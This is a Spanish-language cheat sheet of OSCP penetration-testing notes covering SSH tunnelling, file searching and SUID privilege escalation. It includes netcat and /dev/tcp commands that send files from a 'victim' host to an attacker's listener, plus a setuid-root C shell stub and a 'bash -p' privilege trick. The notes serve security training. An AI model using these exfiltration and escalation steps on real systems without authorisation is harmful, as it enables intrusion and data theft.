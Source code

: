 # Apuntes-OSCP

## SSH
```bash
 ssh -p22 usuario@host_remoto
```
#### reenvio de puertos
```bash
 ssh -L [PUERTO_LOCAL]:[HOST_REMOTO]:[PUERTO_REMOTO] usuario@host_remoto
```
#### Inicio de sesion con id_rsa
El id_rsa debe tener el siguiente permiso
```bash
 chmod 600 id_rsa
```
```bash
 ssh -i id_rsa usuario@host_remoto
```
## Transferencia de archivos
* `SCP`
* `find / -name 'sbd*'`
Traer el archivo a mi maquina con scp
```bash
 scp target_user@IP_remota:/ruta/completa/al/archivo .
```
* `NC` 
Es util cuando no dispongo de la contraseña
</br>en la maquina victima
```bash
nc 19.10.10.10 9091 < archivo
```
luego en mi maquina
```bash
nc -lvnp 9091 > archivo
```
Otra Alternativa es
```bash
cat file.txt > /dev/tcp/192.168.1.23/4444 # on victim linux
```
```bash
nc -lvp 4444 > file.txt # on Kali
```
* `BASE64` 
Cuando el archivo no es texto plano, ej: una BD entonces
Tenemos (2) formas
1.
```bash
base64 filename.db > outputfile.db.b64
```
2. 
```bash
echo -n 'texto' | base64
```
Luego en mi maquina
```bash
base64 -d encodedfile.db.b64 > outputfile.db
```
## Busqueda de archivos

* `find / -name 'sbd*'`
* `find / -name 'foldername' -type d`
* `find / -name 'filename' -type f`
* `find / -name 'sbd*' -exec file {} \;`
</br> Buscar por extension </br>
* `find / -type f -iname "*.db" 2>/dev/null`
</br> Buscar varios archivos
* `find / -type f \( -iname "*.db" -o -iname "*.sqlite" -o -iname "*.sqlite3" \) 2>/dev/null`

## Escalada de Privilegios (Permisos SUID)
* forzar los id 
```C
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
}
```
* Otras acciones a realizar
```sh
cp /bin/bash /tmp/bash
```
```sh
/bin/bash -p
```
* El parámetro `-p` en bash significa `preservar los privilegios efectivos` cuando se inicia la shell.

